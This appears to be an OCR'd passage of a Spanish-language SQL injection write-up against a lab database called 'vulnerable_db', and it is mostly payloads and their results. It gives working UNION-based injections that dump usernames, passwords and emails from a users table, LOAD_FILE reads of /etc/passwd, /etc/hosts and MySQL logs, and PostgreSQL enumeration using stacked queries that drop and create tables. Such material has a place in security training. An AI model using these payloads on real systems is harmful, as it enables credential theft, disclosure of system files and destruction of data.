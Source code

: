 ### 📄 Extracción de Datos
```sql
' UNION SELECT id,username,password,email,created_at FROM users -- 
```

### ✅ Resultados MySQL
- **Base de datos**: `vulnerable_db`
- **Tablas**: `users`, `products`
- **Estructura users**: `id(int)`, `username(varchar)`, `password(varchar)`, `email(varchar)`, `created_at(datetime)`

### 📁 Lectura de Archivos del Sistema - MySQL
```sql
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5 --
```

#### Técnica: LOAD_FILE()
- **Función**: `LOAD_FILE(filename)`
- **Ventaja**: Sin requisitos de casting
- **Archivos leídos**: `/etc/passwd`, `/etc/hosts`
- **Información obtenida**: 
  - **Usuario MySQL**: `mysql:x:999:999::/var/lib/mysql:/bin/bash`
  - **Sistema completo**: Todos los usuarios del sistema
  - **Servicios**: daemon, bin, sys, adm, lp, sync, etc.

#### Payload Exitoso:
```sql
-- Lectura directa sin casting
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5 --

-- Otros archivos importantes
' UNION SELECT 1,LOAD_FILE('/etc/hosts'),3,4,5 --
' UNION SELECT 1,LOAD_FILE('/var/log/mysql/error.log'),3,4,5 --
```

---

## 🐘 POSTGRESQL ENUMERATION

### 📊 Información del Sistema
```sql
' UNION SELECT 1,version(),'postgresql',current_user,NOW() -- 
```

### 🏗️ Enumeración de Tablas (Stacked Queries)
```sql
'; DROP TABLE IF EXISTS temp_tables; CREATE TABLE temp_tables AS SELECT tablename FROM pg_tables WHERE schemaname='public'; -- 
```

### 📋 Consulta de Tablas Temporales
```sql
' UNION SELECT 1,tablename,'public','pg_tables',NOW()::text FROM temp_tables -- 
```
